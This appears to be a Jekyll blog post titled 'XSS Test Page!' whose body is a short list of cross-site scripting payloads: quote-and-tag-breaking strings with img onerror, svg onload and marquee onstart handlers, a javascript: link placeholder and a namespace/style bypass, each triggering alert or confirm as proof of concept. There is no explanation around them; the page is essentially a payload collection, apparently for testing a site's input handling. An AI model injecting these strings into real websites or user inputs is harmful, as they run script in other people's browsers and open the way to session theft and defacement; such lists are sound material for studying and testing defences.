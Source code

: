 ```yaml
---
layout: post
title:  "XSS Test Page!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```



'"></title></script><img src=x onerror=confirm(1)>
<a href="javascript:{ js code here}"> POC </a>
<xml:namespace prefix="t"><svg><style>&lt;img/src=x onerror=alert(document.domain)// </b> 
“><svg/onload=alert(document.domain)>”@x.y
<marquee onstart=alert(1)>
'>"><svg/onload=alert()>
